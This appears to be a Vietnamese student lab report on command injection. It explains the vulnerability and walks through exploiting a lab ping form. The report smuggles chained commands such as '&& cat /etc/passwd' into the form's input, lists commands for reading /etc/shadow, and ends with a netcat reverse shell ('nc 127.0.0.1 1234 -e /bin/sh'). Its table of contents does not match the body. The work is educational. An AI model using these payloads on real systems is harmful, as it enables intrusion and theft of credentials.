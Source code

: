 # <div align="center"><p> Command Injection, Directory Traversal Vuln, XML external entity injection </p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 17/5/2022
 ### MỤC LỤC
 1. [Command Injection](#1)
 
     1.1 [Khái niệm XSS](#11)
      
     1.2 [Các kiểu khai thác XSS](#12)
 
     1.3 [Khi nào thì XSS sẽ xảy ra](#13)

     1.4 [Cách khắc phục XSS](#14)
      
     1.5 [Cách sử dụng XSS để đánh cắp cookies người dùng](#15)
 
     1.6 [Điều chỉnh các tham số header](#16)

     1.7 [Mô phỏng XSS đánh cắp phiên khi Login vào trang web. Cookie sẽ được điều hướng về 1 host dựng sẵn](#17)
      
     1.8 [Mô phỏng code XSS](#18)
 
     1.9 [Khắc phục code lỗi XSS](#19)
     
 2. [CSRF](#2) 

     2.1 [Khái niệm CSRF](#21)
      
     2.2 [Cách thức tấn công CSRF](#22)
 
     2.3 [Mô phỏng code lỗi CSRF](#23)

     2.4 [Khắc phục code lỗi CSRF](#24)
       
 3. [LFI](#3)

     3.1 [Khái niệm LFI](#31)
      
     3.2 [Cách thức tấn công LFI](#32)
 
     3.3 [Mô phỏng code lỗi LFI](#33)

     3.4 [Khắc phục code lỗi LFI](#34)

  4. [RFI](#4)

     4.1 [Khái niệm RFI](#41)
      
     4.2 [Cách thức tấn công RFI](#42)
 
     4.3 [Mô phỏng code lỗi RFI](#43)

     4.4 [Khắc phục code lỗi RFI](#44)
 
 5. [Các hàm đã sử dụng](#5)
 
### Nội dung báo cáo 
#### 1. Command Injection <a name="1"></a>
<br> 1.1 Khái niệm Command Injection <a name="11"></a></br>
 - Command Injection là đưa các lệnh của hệ điều hành được thực thi thông qua một ứng dụng web. 
  
 <br> 1.2 Sự khác nhau giữa code injection và command injection <a name="11"></a></br>
  <table align="center">
   <tr>
        <td align="center" ><b>Tên</b></td>
        <td align="center"><b>Khác nhau</b></td>
   </tr>
   <tr>
        <td><b>code injection</b></td>
        <td><b>Cho phép hacker chèn mã riêng, sau đó được ứng dụng thực thi</b></td>
   </tr>
   <tr>
        <td ><b>command injection</b></td>
        <td ><b>Cho phép mở rộng chức năng mặc định của ứng dụng, thực thi các lệnh hệ thống mà không cần phải chèn mã.</b></td> 
   </tr>
 </table>
 
 <br> 1.3 Một số lệnh để lấy thông tin <a name="11"></a></br>
  - Để kiểm tra ứng dụng có lỗ hổng chèn lệnh hay không thì sử dụng siêu ký tự cho phép các lệnh được xâu chuỗi lại với nhau. Các dấu phân tách lệnh sau hoạt động trên cả hệ thống dựa trên Windows và Unix: &, &&, ||, |, ;, ', #,...
  <table align="center">
   <tr>
        <td align="center" ><b>Windows</b></td>
        <td align="center"><b>Linux</b></td>
         <td align="center"><b>Chức năng</b></td>
   </tr>
   <tr>
        <td ><b>whoami</b></td>
        <td ><b>whoami</b></td> 
        <td ><b>Tên của người dùng hiện tại</b></td>
   </tr>
   <tr>
        <td ><b>	ver</b></td>
        <td ><b>	uname -a</b></td> 
        <td ><b>Hệ điều hành</b></td>
   </tr>
   <tr>
        <td ><b>	ipconfig/all</b></td>
        <td ><b>ifconfig</b></td>
        <td ><b>	Cấu hình mạng</b></td>
   </tr>
   <tr>
        <td ><b>	netstat-an</b></td>
        <td ><b>	netstat-an</b></td>
        <td ><b>	Kết nối mạng</b></td>
   </tr>
   <tr>
        <td ><b>	tasklist /all</b></td>
        <td ><b>	ps-ef</b></td>
        <td ><b>	Các quy trình đang chạy</b></td>
   </tr>
 </table>
 
  - Ngoài ra, trên linux còn có thể sử dụng các lệnh sau để kiểm tra ứng dụng:
    - `php -v`: Cung cấp cho bạn phiên bản PHP chạy trên máy chủ ứng dụng web.
    - `/etc/passwd`: Hiển thị tất cả người dùng trên Máy chủ Linux phụ trợ
    - `/etc/shadow: Hiển thị tất cả mật khẩu đã băm nhưng chỉ khi bạn đang chạy với đặc quyền root.
    
<br> 1.4 Mô phỏng code command injection <a name="11"></a></br>
 - Đây là code lỗ hổng:

   ![image](https://user-images.githubusercontent.com/101852647/168734352-b4d9b93b-ac4b-4b7f-9c3a-1b269a6fcfc3.png)

<br> 1.5 Khai thác lỗ hổng và thực thi reverse shell <a name="11"></a></br>
 - Đây là giao diện web chứa lỗ hổng command injetion:

   ![image](https://user-images.githubusercontent.com/101852647/168750779-77522d7c-4aa3-4ab5-b154-98b85a743f7a.png)
   
 - Bây giờ thử `ping 8.8.8.8` để kiểm tra kết nối:

   ![image](https://user-images.githubusercontent.com/101852647/168751764-78be9087-11ca-4a9e-9a03-148eeff242cb.png)

 - Tiếp theo chúng ta kiểm tra lỗ hổng bằng cách thử nhập `8.8.8.8 && ls` và nó đã hiển thử thư mục cho chúng ta:

   ![image](https://user-images.githubusercontent.com/101852647/168752189-dbcf99eb-2c07-4063-a866-22829a22ae80.png)

 - Chúng ta cũng có thể kiểm tra tên người dùng hiện tại bằng lệnh `8.8.8.8 && whoami`:

   ![image](https://user-images.githubusercontent.com/101852647/168752606-54908571-199b-41c4-813f-66b892248bc1.png)

 - Hoặc chúng ta có thể hiển thị hệ điều hành bằng lệnh `8.8.8.8 && uname -a`:

   ![image](https://user-images.githubusercontent.com/101852647/168752979-70a354dd-80d9-4389-9b10-1743aa5d7c69.png)

 - Chúng ta cũng có thể xem nội dung trong tệp `/etc/passwd` bằng lệnh ` 8.8.8.8 && cat/etc/passwd`:

   ![image](https://user-images.githubusercontent.com/101852647/168753366-936ebc40-beb8-4eaa-9b11-6d12bd4276ca.png)

 - Bây giờ chúng ta sẽ thực hiện reverse shell. Đầu tiên chúng ta sử dụng lệnh ` nc -lvnp 1234` để mở trình lắng nghe cho các kết nối:

   ![image](https://user-images.githubusercontent.com/101852647/168758609-76e603b5-9150-46f2-bc77-8346ad1666f8.png)
   
 - Tiếp theo chúng ta sử dụng lệnh `netstat -tunpl `để :

   ![image](https://user-images.githubusercontent.com/101852647/168759055-859aaa02-53b5-4553-b052-9fb47f4eb6ef.png)

 - Sau đó chúng ta sẽ sử dụng lệnh `ip a` để :

  ![image](https://user-images.githubusercontent.com/101852647/168759247-b45d025b-826e-4359-8e70-d5915b3b9d22.png)

 - Bây giờ chúng ta sẽ thử lệnh `8.8.8.8 && nc 127.0.0.1 1234 -e /bin/sh ` để tạo một trình bao trên máy chủ và kết nối ngược lại với máy chúng ta:

   ![image](https://user-images.githubusercontent.com/101852647/168760822-0a14488c-0e86-4143-91b1-7f595d0b1681.png)


